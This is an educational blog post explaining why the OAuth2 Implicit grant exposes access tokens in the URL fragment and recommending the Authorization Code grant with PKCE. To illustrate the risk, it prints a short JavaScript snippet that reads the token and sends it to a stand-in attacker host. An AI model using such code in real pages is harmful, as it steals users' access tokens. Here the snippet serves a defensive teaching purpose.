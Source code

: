 ```yaml
---
publish_date: 2021-04-29 
title: What's Wrong With the OAuth2 Implicit Grant?
description: OAuth2 specifies an Implicit grant. What's wrong with using it?
authors: Brian Pontarelli
image: /img/blogs/avoid-implicit-grant/oauth2-implicit-grant.svg
categories: Education
tags: oauth, standards, implicit grant
excerpt_separator: "{/* more */}"
---
```

The Implicit grant is part of the OAuth 2 RFC, but is [one of the features omitted in the OAuth 2.1 specification](/learn/expert-advice/oauth/differences-between-oauth-2-oauth-2-1). With this grant, you don't have to write server side code. Instead of having to exchange an authorization code for an access token, you are provided an access token on redirect.

{/* more */}

This is convenient if you are working in the JAMstack or in another situation where you don't want to run a server. 

However, it is horribly insecure, broken, deprecated, and should never, ever be used (ever). Okay, maybe that's being a bit dramatic, but please don't use this grant. The good folks behind the OAuth 2.1 draft agree, which is why they left it out of that new specification.

> The Implicit grant ("response_type=token") is omitted from this specification as per Section 2.1.2 of OAuth 2.0 Security Best Current Practices

## Run away

Instead of showing you how to use this grant, let's discuss why you should avoid it.

![Just a rabbit?](/img/blogs/avoid-implicit-grant/Rabbitattack.jpg)

The reason that it has been removed is that it skips an important step that allows you to secure the tokens you receive from the OAuth server. This step occurs when your application backend makes the call to the Token endpoint to retrieve the tokens.

Unlike the [Authorization Code grant](/docs/v1/tech/oauth/#example-authorization-code-grant), the Implicit grant does not redirect the browser back to your application backend with an Authorization Code. Instead, it puts the access token directly on the URL as part of the redirect. These URLs look like this:

`https://piedpiper.com/#token-goes-here`

The token is added to the redirect URL after the `#` symbol. This places it in the fragment portion of the URL. What this means is that wherever the OAuth server redirects the browser to, the access token is accessible to any code running in the browser. In other words, to basically everyone.

To be more precise, the access token is accessible to any and all JavaScript that is running in the browser (including third party libraries). Since this token allows the browser to make API calls and web requests on behalf of the user, having this token be accessible to third-party code is extremely dangerous.

Let's take a dummy example of a single-page web application that uses the Implicit grant:

```html
// This is dummy code for a SPA that uses the access token
<html>
<head>
  <script type="text/javascript" src="/my-spa-code-1.0.0.js"></script>
  <script type="text/javascript" src="https://some-third-party-server.com/a-library-found-online-that-looked-cool-0.42.0.js"></script>
</head>
<body>
...
</body>
```

This HTML includes two JavaScript libraries:

* The code for the application itself (`my-spa-code-1.0.0.js`).
* A library we found online that did something cool and we just pulled it in (`a-library-found-online-that-looked-cool-0.42.0.js`).

Let's assume that our code is 100% secure and we don't have to worry about it. The library we pulled in, however, is an unknown quantity. 

This library may include other libraries as well. Remember, the DOM is dynamic. Any JavaScript can load any other JavaScript library simply by updating the DOM with `<script>` tags. Therefore, we have very little chance of ensuring every other line of code from third-party libraries is secure. 

After all, **do you** audit every JavaScript library and every dependency of each library every time you deploy your application? 

If a third-party library wanted to steal an access token from our dummy application, all it would need to do is run this code:

```javascript
if (window.location.hash.contains('access_token')) {
  fetch('http://steal-those-tokens.com/yummy?hash=' + window.location.hash);
}
```

Three lines of code and the access token has been stolen. As you can see, the risk of leaking tokens is far too high to ever consider using the Implicit grant. This is why we recommend no one ever use this grant.

## How to correctly use OAuth in a SPA

Well, if you are building an awesome React, Angular, Vue or other single page application, what should you use instead of the Implicit grant?

Use the Authorization Code grant! It's secure, safe, well tested, standardized and keeps tokens out of the URL.

In addition to using that grant, take these steps to secure your SPA OAuth flow:

* Use [PKCE](https://tools.ietf.org/html/rfc7636) in your SPA to make sure your application, which can't maintain a secure client secret, is not susceptible to an authorization code interception attack.
* Run a server. It needn't be complicated. In fact, it can be as simple as a few lines of node to exchange the authorization code for an access token. Here's [an example Node application](https://github.com/fusionauth/fusionauth-example-node). This is also known as the BFF, or Backend For a Frontend, pattern.
* Store access tokens out of reach of JavaScript in the browser. You could store them in a server side session, or in `secure`, `HttpOnly` cookies.

Want to learn more about the different OAuth grants? Check out [The Modern Guide to OAuth](/learn/expert-advice/oauth/modern-guide-to-oauth) for an in-depth look at all the different OAuth grants and how you might use them in the real world.

Happy coding!

